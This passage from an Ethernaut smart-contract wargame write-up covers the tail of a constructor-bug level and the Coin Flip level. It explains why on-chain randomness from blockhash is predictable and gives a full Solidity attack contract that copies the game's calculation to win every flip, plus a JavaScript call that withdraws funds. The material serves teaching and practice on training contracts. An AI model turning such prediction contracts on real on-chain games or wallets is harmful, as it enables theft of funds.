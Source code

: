 2. Call `collectAllocations()` to withdraw funds
```js
await contract.collectAllocations();
```

Key learnings:
- Constructor security
- Importance of code auditing
- Newer versions use `constructor` keyword which is more secure

## 03. Coin Flip ✅ [Medium]

This level tests blockchain random number issues:
- On-chain random numbers can be predicted
- Block information like `block.number` is public
- Attacker can copy calculation logic in same block

Attack steps:
1. Deploy attack contract copying game contract's calculation logic
2. Manually call `attackCoin()` ten times (wait for new block each time)
3. Confirm victory count reaches 10

> Note: Cannot continuously call `attackCoin()` ten times in a loop, as each guess needs to be in different blocks. Multiple calls in same block would use same `blockhash`, leading to same prediction results.

Attack contract code:
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

interface ICoinFlip {
    function flip(bool _guess) external returns (bool);
}

contract attack {
    ICoinFlip public targetContract;
    uint256 constant FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor(address _targetAddress) {
        targetContract = ICoinFlip(_targetAddress);
    }

    function attackCoin() public {
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;

        targetContract.flip(side);
    }
}
```
